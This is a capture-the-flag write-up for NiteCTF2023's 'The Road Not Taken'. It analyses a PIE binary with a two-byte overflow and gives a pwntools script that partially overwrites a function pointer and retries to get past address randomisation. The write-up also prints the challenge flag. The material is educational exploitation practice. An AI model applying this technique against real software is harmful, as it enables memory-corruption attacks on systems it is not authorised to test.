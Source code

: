 ```yaml
---
layout: default
title:  "The Road Not Taken"
parent: "NiteCTF2023"
grand_parent: "Writeups"
nav_order: 1
---
```

`by broCapang`

# Overview

The main goal is to manipulate the execution flow by exploiting PIE randomization into calling the `right_direction` function.

## Analysis

File check

```bash
$ file the_road_not_taken1 
the_road_not_taken1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fbde2c5d6b8f1315d7b2634ae43d339d49aaa455, for GNU/Linux 4.4.0, not stripped
```

Security Check

```bash
checksec --file the_road_not_taken1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Key Findings**
- file is a 64bit binary
- dynamically linked -> means it will fetch libc functions
- not stripped -> functions name stays, we can see it in ghidra/ida
Security 
- no stack canary, possible buffer overflow
- PIE, address of the functions/gadgets will be randomized

**Execution Testing**
```bash
$ ./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
yoko
This doesn't look like the right direction are u sure
```

```bash
./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This doesn't look like the right direction are u sure
```
hm, no seg fault? no overflow?

**Decompiler checking**

main function
```C
void main(void)

{
  undefined local_218 [520];
  code *local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,local_218,0x20a);
  (*local_10)();
  return;
}

```
wrong_direction
```
void wrongdirection(void)

{
  puts("This doesn\'t look like the right direction are u sure");
  return;
}
```
right_direction
```
void rightdirection(void)

{
  puts("Thanks for the help");
  puts("nite{not_the_real_flag}");
  return;
}
```

There is indeed buffer overflow in the main function!
Its just damn big.
```C
undefined local_218 [520]; # buffer size 520
read(0,local_218,0x20a); # reads 0x20a = 522
```

so we can only overflow 2 bytes, not enough to replace all of the return address to go to right_direction functions

however last 2 bytes of PIE wont change 
"Due to the way PIE randomisation works, the base address of a PIE executable will **always** end in the hexadecimal characters `000`. This is because **pages** are the things being randomised in memory, which have a standard size of `0x1000`. Operating Systems keep track of page tables which point to each section of memory and define the permissions for each section, similar to segmentation.

Checking the base address ends in `000` should _probably_ be the first thing you do if your exploit is not working as you expected." from https://ir0nstone.gitbook.io/notes/types/stack/pie 

# Solution

we can find the offset of the right_direction function and put it at the end of our payload
```python
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding
offset = b'A'*520
payload = offset + b'\x59\x11'
io.recvline()
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```

however this wont work because the offset will be added into the base address
example:
- base address = 0x11111000
- right_direction offset = 0x1000
- right_direction address = 0x11112000
To solve this we need to loop many times through the connection and get the base address fit with our payload


``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './the_road_not_taken1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding


for j in range(0,100):

    try:

        offset = b'A'*520
        payload = offset + b'\x59\x11'
        io.recvline()
        io.sendline(payload)
        print(io.recvline())
        print(io.recvline())
    except EOFError:
        pass

```

nite{R0b3rT_fro5t_ftw_32dx5hp}
